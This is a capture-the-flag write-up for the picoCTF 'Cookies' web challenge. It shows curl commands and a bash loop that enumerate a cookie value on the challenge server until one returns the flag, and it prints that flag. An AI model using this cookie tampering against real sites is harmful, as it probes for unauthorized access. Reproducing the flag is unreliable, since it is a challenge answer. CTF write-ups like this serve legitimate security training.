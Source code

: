 # Cookies
Category: Web, 40 points

## Description
> Who doesn't love cookies? Try to figure out the best one. 

## Solution

We visit the website and see the following message:

```html
<div class="col-xs-12 col-sm-12 col-md-12">
    <h3>Welcome to my cookie search page. See how much I like different kinds of cookies!</h3>
</div>
```

Let's check the cookie we get from the server:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cookies]
└─$ curl -s http://mercury.picoctf.net:64944/ -I | grep Cookie
Set-Cookie: name=-1; Path=/
```

What if we try to access with a different cookie name?

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cookies]
└─$ curl -s http://mercury.picoctf.net:64944/ -H "Cookie: name=0;" -L | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>

```

Let's search for that special cookie by trying different numbers:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cookies]
└─$ for i in {1..20}; do
for>     contents=$(curl -s http://mercury.picoctf.net:64944/ -H "Cookie: name=$i; Path=/" -L)
for>     if ! echo "$contents" | grep -q "Not very special"; then
for then>         echo "Cookie #$i is special"
for then>         echo $contents | grep "pico"
for then>         break
for then>     fi
for> done
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```

The flag: `picoCTF{3v3ry1_l0v3s_c00k135_064663be}`

